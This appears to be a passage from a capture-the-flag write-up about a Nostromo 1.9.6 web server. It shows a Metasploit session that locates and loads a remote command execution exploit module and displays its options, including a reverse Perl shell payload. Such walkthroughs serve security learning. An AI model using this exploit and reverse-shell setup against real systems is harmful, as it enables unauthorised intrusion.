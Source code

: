 It seems that we have a web server called “Nostromo”. For more information here: http://www.nazgul.ch/dev_nostromo.html.

After searching on the web, I found out a Metasploit exploitation module for the Nostromo 1.9.6. Try to run Metasploit and search on nostromo 1.9.6. You will find the module exploit/multi/http/nostromo_code_exec

``` bash 
msf5 > search nostromo 1.9.6

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  exploit/multi/http/nostromo_code_exec      2019-10-20       good    Yes    Nostromo Directory Traversal Remote Command Ex

msf5 > use exploit/multi/http/nostromo_code_exec 

msf5 exploit(multi/http/nostromo_code_exec) > show options 

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
   ```
